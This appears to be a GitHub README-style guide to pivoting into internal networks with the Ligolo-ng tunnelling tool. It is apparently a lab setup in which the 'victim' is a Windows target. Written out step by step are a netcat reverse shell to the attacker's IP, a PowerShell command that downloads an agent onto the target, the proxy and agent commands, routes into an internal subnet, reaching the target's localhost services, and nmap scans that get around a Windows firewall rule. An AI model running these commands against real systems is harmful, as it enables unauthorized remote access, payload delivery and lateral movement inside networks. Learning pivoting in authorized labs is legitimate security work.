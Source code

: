 
# Ligolo Setup Guide

## We  got    Agent  and proxy :--

1. Proxy  ⇒  Kali Linux  [ Local pc  ]
2. Agent  ⇒  Target  machines [  Victim ]


 ## Symbols & Notations
- **$** : Turbo User (Non-root user on attacker machine)
- **#** : Root User  (root user on attacker machine)
- **C:\>** : Target Machine (Windows)
- **@** : Reverse Shell of Windows in Attacker End
- **##** : Ligolo-Proxy-Server

## 1 - Place `nc` Binary on Target Machine

Using a Python HTTP server:

```
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Windows\ Binaries]
└─$ python -m http.server 80
```

Access the server from the target machine:

```
http://192.168.1.13
```

---

## 2 - Get a Reverse Shell

Start a listener on port 443:

```bash
$ nc -nlvp 443
```

On the target machine, run:

```powershell
C:\> nc64.exe 192.168.1.13 443 -e cmd.exe
```

After executing this, the reverse shell will be active on the attacker’s listener.

![image](https://github.com/user-attachments/assets/cd48e5b2-5321-46c6-901a-0440aa837b9b)


---

## 3 - Transfer Ligolo Agent to Target Machine

Start a Python HTTP server:

```bash
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Ligolo_ng/win]
└─$ python -m http.server 80
```

On the reverse shell, download the agent:

```powershell
@ powershell Invoke-WebRequest "http://192.168.1.13/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

Alternative method:

```powershell
@ iwr -uri http://192.168.45.13/agent.exe -Outfile agent.exe
```

Or manually visit:

```
http://192.168.1.13
```

---

## 4 - Start Ligolo Proxy Server on Attacker Machine

Run the following as **root**:
Run on Attacker Box (Kali) with root User (192.168.1.13)

• Create the Ligolo tunnel interface on the attacker system
```
# ip tuntap add user turbo mode tun ligolo
```
![image](https://github.com/user-attachments/assets/b3b79fc3-9e1e-48d6-88c5-eb418294039c)

• Created Ligolo tunnel interface to active
```
# ip link set ligolo up
```
![image](https://github.com/user-attachments/assets/762332d3-7a3d-47bf-8d1e-991dd8c6fc23)

```
# cd /opt/Static\ Binaries/Ligolo_ng/win
```
```
# chmod +x proxy
```

Start the local proxy server:

```
# ./proxy -selfcert -laddr 0.0.0.0:80
```
Other Method
```
# ligolo-proxy -selfcert -laddr 0.0.0.0:80
```

---

## 5 - Start Ligolo Agent on Target Machine

### On Windows

```
@ agent.exe -connect 192.168.1.13:80 -ignore-cert
```

### On Linux

```
@ agent -connect 192.168.1.13:80 -ignore-cert
```

---

## 6 - Configure Network Routing on Attacker Machine

Check agent session:

```
## ligolo-ng » session
```


![image](https://github.com/user-attachments/assets/699f05da-9f93-496c-806e-ab5b21b56cf2)

```
## [Agent : root@webserver] » ifconfig
```
![image](https://github.com/user-attachments/assets/043d0a4f-f96e-4e72-8636-683fb3559ad5)


Add an internal network route:

```
# ip route add 192.168.2.0/24 dev ligolo
```

Verify routes:

```
# route -n
# ip route
```
![image](https://github.com/user-attachments/assets/c7320a87-f891-4583-897c-3ca4e99b7cc6)


Check active tunnels:

```
## [Agent : root@webserver] » tunnel_list
```
![image](https://github.com/user-attachments/assets/79c4ddc4-a94e-476e-bd21-42230fae5ce6)


---

## 7 - Visit Services from Attacker Machine

- **http://192.168.1.20** - Bind in port 80 Apache page
- **http://192.168.2.10** - Bind to site2

  ![image](https://github.com/user-attachments/assets/beec36e4-a763-4bba-bc47-c6ddc01b4430)

- **http://127.0.0.1** - Binnd to site1

---

## 8 - Access Agent’s Local Ports ( 127.0.0.1 )

Link :-  https://github.com/nicocha30/ligolo-ng/wiki/Localhost

 If you need to access the local ports of the currently connected agent, there's a
"magic" CIDR hardcoded in Ligolo-ng: 240.0.0.0/4
This is an unused IPv4 subnet. If you query an IP address on this subnet, Ligolo-
ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).
```
# ip route add 240.0.0.1/32 dev ligolo
```

```

# ip route
```
![image](https://github.com/user-attachments/assets/1af2c3e5-fc79-4ecf-abe2-e3c0e61b1e93)

Visit from the attacker machine:

```
http://240.0.0.1
```
![image](https://github.com/user-attachments/assets/b4199875-dd13-4a9a-abff-8947c5c237ec)

Scan the network:

```
# nmap -v -p- -sT 240.0.0.1
```
⇒ When  we Scan  inside the  Target Machine  withthe help of  this  ip  (240.0.0.1) Port no 80 Open 

![image](https://github.com/user-attachments/assets/4f41d77a-ad29-45b0-9a9b-2fae09d4ed21)

⇒ When we  Scan  Outside of the Target Machine  withthe help of ip ( 192.168.1.20 ) Port no 80 Open 

![image](https://github.com/user-attachments/assets/685f1b85-f957-4014-aaa9-d6352576b96c)
 
========================================================

## Firewall in windows :- 
 
 In inbound Rule Block port no 80  which is not listning in nmap output ----

 ![image](https://github.com/user-attachments/assets/60ed9d5e-682d-4dbc-ab94-0da41fda42d1)


⇒ Port no  80 Block  By Firewall  they can't show in nmap output :--
 
 ![image](https://github.com/user-attachments/assets/ce723713-010e-4f0f-a159-908844a8956a)

 
 ⇒ port no 80  is show  in  local host Binding   127.0.0.1  [  240.0.0.1 ]

 ![image](https://github.com/user-attachments/assets/8c99d7c9-dc63-4dd5-a14e-ab7dec0fe8c4)

 
 
 
 

 

